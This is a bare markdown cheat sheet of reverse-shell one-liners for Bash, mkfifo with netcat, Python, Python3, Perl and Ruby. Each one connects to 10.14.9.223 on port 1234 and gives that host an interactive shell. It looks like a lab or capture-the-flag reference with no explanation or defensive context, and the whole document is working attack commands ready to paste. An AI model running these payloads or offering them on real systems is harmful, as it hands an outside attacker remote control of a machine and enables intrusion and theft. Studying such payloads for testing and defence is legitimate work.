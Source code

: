 # Bash
- ## `bash -i >& /dev/tcp/10.14.9.223/1234 0>&1`

# mkfifo
- ## 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.14.9.223 1234 >/tmp/f'

# python
- ## `export RHOST="10.14.9.223";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'`

# python3
- ## `export RHOST="10.14.9.223";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'`

# perl
- ## `perl -e 'use Socket;$i="10.14.9.223";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'`

# ruby
- ## `ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.14.9.223",1234))'`

